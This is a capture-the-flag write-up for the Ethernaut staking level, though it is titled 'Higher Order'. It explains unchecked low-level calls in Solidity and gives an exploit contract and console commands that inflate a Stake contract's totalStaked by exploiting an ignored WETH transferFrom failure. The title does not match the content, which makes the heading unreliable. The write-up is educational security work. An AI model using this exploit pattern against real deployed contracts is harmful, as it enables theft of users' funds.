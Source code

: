 # Writeup for Higher Order

- Hello h4ck3r, welcome to the world of smart contract hacking. Solving the challenges from Ethernaut will help you understand Solidity better. Each challenge involves deploying a contract and exploiting its vulnerabilities. If you're new to Solidity and haven't deployed a smart contract before, you can learn how to do so using Remix [here](https://youtu.be/3xNFZI8Ste4?si=i3cWN87OpX85zp6k).

### Challenge Description

Stake is safe for staking native ETH and ERC20 WETH, considering the same 1:1 value of the tokens. Can you drain the contract?

To complete this level, the contract state must meet the following conditions:

- The Stake contract's ETH balance has to be greater than 0.
- totalStaked must be greater than the Stake contract's ETH balance.
- You must be a staker.
- Your staked balance must be 0.

### Key Concepts to Learn

In order to exploit this contract we need to understand how low-level call works

In solidity when we use low-level calls the transaction won't fail even if the low-level call fails. It will just return whehter the call is true or false. We need to explicitly write logic to handle edge-cases.

Check the below example.

```

// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;


contract contract_one{
    mapping(address=>uint256) public balances;

    constructor()payable{
        balances[msg.sender]=1000;
        require(msg.value==1000);
    }


    function withdraw(uint256 amount)public payable{
        if(balances[msg.sender]>=amount){
            balances[msg.sender]-=amount;
            (msg.sender).call{value:amount};
        }
    }


    function deposit()public payable{
        balances[msg.sender]+=msg.value;
    }
}


contract contract_two{
    contract_one public one;

    constructor()payable{
        one=new contract_one{value:1000}(); //Creating contract_two
    }

    function Claim()public{
        one.withdraw(1000);
    }

    function check_balance()public view returns(uint256){
        return one.balances(address(this));
    }
}

```

Deploy `contract_two` by sending 1000 wei during deployment. This will then deploy `contract_one` by sending 1000 wei, and the constructor in `contract_one` will set the balance of `contract_two` to 1000.

Now, calling the `Claim()` function in `contract_two` will call the `withdraw()` function in `contract_one`. The `withdraw()` function in `contract_one` will reduce the balance of `contract_two` and send 1000 wei to `contract_two` using a low-level call.

Since `contract_two` does not have a `receive()` function, it won't accept any ether payments. Therefore, the low-level call made by `contract_one` will fail, but the balances will still be updated. The next time the `Claim()` function in `contract_two` is called, it will revert because the balances have already been updated.

### Contract Explaination

If you understand the contract, you can move on to the [exploit](#exploit) part. If you're a beginner, please read the Contract Explanation to gain a better understanding of Solidity.

Click [here](./src/contracts/Stake.sol) to view the contract source code.

<details>
<summary>Click to view the contract explanation</summary>

```
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;
contract Stake {

    uint256 public totalStaked;
    mapping(address => uint256) public UserStake;
    mapping(address => bool) public Stakers;
    address public WETH;

    constructor(address _weth) payable{
        totalStaked += msg.value;
        WETH = _weth;
    }

    function StakeETH() public payable {
        require(msg.value > 0.001 ether, "Don't be cheap");
        totalStaked += msg.value;
        UserStake[msg.sender] += msg.value;
        Stakers[msg.sender] = true;
    }
    function StakeWETH(uint256 amount) public returns (bool){
        require(amount >  0.001 ether, "Don't be cheap");
        (,bytes memory allowance) = WETH.call(abi.encodeWithSelector(0xdd62ed3e, msg.sender,address(this)));
        require(bytesToUint(allowance) >= amount,"How am I moving the funds honey?");
        totalStaked += amount;
        UserStake[msg.sender] += amount;
        (bool transfered, ) = WETH.call(abi.encodeWithSelector(0x23b872dd, msg.sender,address(this),amount));
        Stakers[msg.sender] = true;
        return transfered;
    }

    function Unstake(uint256 amount) public returns (bool){
        require(UserStake[msg.sender] >= amount,"Don't be greedy");
        UserStake[msg.sender] -= amount;
        totalStaked -= amount;
        (bool success, ) = payable(msg.sender).call{value : amount}("");
        return success;
    }
    function bytesToUint(bytes memory data) internal pure returns (uint256) {
        require(data.length >= 32, "Data length must be at least 32 bytes");
        uint256 result;
        assembly {
            result := mload(add(data, 0x20))
        }
        return result;
    }
}
```

The contract has four state variables named `totalStake`, `Userstake`, `Stakers`, and `WETH`. `totalStake` is of type **uint256**, `Userstake` is a mapping of **address** to **uint256**, `Stakers` is a mapping of **address** to bool, and `WETH` is the **address** of an ERC20 instance.

```solidity
constructor(address _weth) payable{
    totalStaked += msg.value;
    WETH = _weth;
}
```

The constructor takes an argument of type **address**, sets `WETH` to the address passed, and sets `totalStaked` to `msg.value`.

```solidity
function StakeETH() public payable {
    require(msg.value > 0.001 ether, "Don't be cheap");
    totalStaked += msg.value;
    UserStake[msg.sender] += msg.value;
    Stakers[msg.sender] = true;
}
```

The function `StakeETH()` checks if `msg.value` is greater than `0.001 ether`. If it is, the function increases `totalStaked` by `msg.value`, updates `UserStake` for `msg.sender` by adding `msg.value`, and sets `Stakers` for `msg.sender` to `true`.

```solidity
function StakeWETH(uint256 amount) public returns (bool){
    require(amount >  0.001 ether, "Don't be cheap");
    (,bytes memory allowance) = WETH.call(abi.encodeWithSelector(0xdd62ed3e, msg.sender,address(this)));
    require(bytesToUint(allowance) >= amount,"How am I moving the funds honey?");
    totalStaked += amount;
    UserStake[msg.sender] += amount;
    (bool transfered, ) = WETH.call(abi.encodeWithSelector(0x23b872dd, msg.sender,address(this),amount));
    Stakers[msg.sender] = true;
    return transfered;
}
```

The function `StakeWETH()` takes an argument of type **uint256** and checks if the amount is greater than `0.001 ether`. If it is greater, it checks whether the sender has allowed this contract to transfer `WETH` tokens on behalf of the sender. If the approved amount is greater than the amount passed, it will update the state variables in the same way as the `StakeETH()` function but makes an extra call to the `transferFrom()` function in the WETH contract

```solidity
function Unstake(uint256 amount) public returns (bool){
    require(UserStake[msg.sender] >= amount,"Don't be greedy");
    UserStake[msg.sender] -= amount;
    totalStaked -= amount;
    (bool success, ) = payable(msg.sender).call{value : amount}("");
    return success;
    }
```

The `Unstake()` function takes an argument of type **uint256** as input. It checks if the `msg.sender` (caller) has enough balance to transfer. If they have enough balance, it updates the caller's balance by decreasing `UserStake` of `msg.sender` by the amount passed. Then it makes a low-level call to transfer tokens and returns whether the call was successful or not.

```solidity
function bytesToUint(bytes memory data) internal pure returns (uint256) {
    require(data.length >= 32, "Data length must be at least 32 bytes");
    uint256 result;
    assembly {
        result := mload(add(data, 0x20))
    }
    return result;
}
```

The function `bytesToUint()` takes an argument of type `bytes` as input. It first checks if the data length is 32 bytes. Then, it loads data from memory at the position `data + 0x20` because the position of `data` only contains the length of the data. The actual data is found in the next slot, which is why `0x20` (32 bytes) is added. The value is then loaded into `result` and returned.

</details>

### Exploit

Our goal is to satisfy the four conditions given in the challenge description. Let's satisfy the conditions one by one.

The first condition is to make the contract's `ETH` balance greater than zero. This can be achieved by sending some ether to the contract.

The second condition is to make `totalStaked` greater than the Stake contract's ETH balance. This can be achieved by staking some WETH tokens. We can call the `StakeWETH()` function to stake WETH tokens, but it checks if we have allowed the Stake contract to transfer `WETH` tokens on our behalf before transferring.

Before calling `StakeWETH()`, we need to call the `approve()` function in the WETH contract to allow the Stake contract to transfer tokens on our behalf. When we call `StakeWETH()`, the two `require` statements will pass. Then, `StakeWETH()` calls the `transferFrom` function in the WETH contract, transferring tokens from our address to the Stake contract. However, since we don't have any WETH tokens, the call will fail. Because it is a low-level call, it will return false but still it update's all the state changes, increasing the staked balance of WETH. Once this call cpmpletes then second condition will be satisfied.

The third condition is that we must be a staker, which means we need to deposit some ETH from our EOA (Externally Owned Account). This can be achieved by calling the `StakeETH()` function from the console.

The fourth condition is to make our staked balance zero. This means that whatever we deposited in the previous condition, we need to withdraw so that our staked balance becomes zero. This can be achieved by calling the `Unstake()` function from the console.

Now, all the conditions can be satisfied by the above steps. Below is the Exploit contract.

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

interface IStake{
    function StakeETH() external payable ;
    function StakeWETH(uint256 amount) external returns (bool);
    function Unstake(uint256 amount) external returns (bool);
}

interface IWeth{
    function approve(address spender, uint256 value) external returns (bool);
}

contract ExploitStake{
    IStake stake;
    IWeth weth;
    constructor(address stake_addr,address _weth){
        stake=IStake(stake_addr);
        weth=IWeth(_weth);
    }

    function Exploit()public payable{
        stake.StakeETH{value: 0.0011 ether}();
        weth.approve(address(stake), 1 ether);
        stake.StakeWETH(1 ether);


    }
}
```

Deploy this contract by passing the Stake address and WETH address as arguments to the constructor. Then, call the `Exploit()` function by sending `0.0011 ether` during the call.

Once the `Exploit()` call is done, the first two conditions will be satisfied.

Now, open the console and enter the following:

```javascript
await contract.StakeETH.sendTransaction({ value: 1100000000000000 });
```

```javascript
> await contract.Unstake(1100000000000000)
```

Once you successfully complete the above two calls, the challenge will be solved, and you can submit the instance.

That's it for this challenge hope you enjoyed this challenge.

<p style="text-align:center;">***<strong>Hope you enjoyed this write-up. Keep on hacking and learning!</strong>***</p>
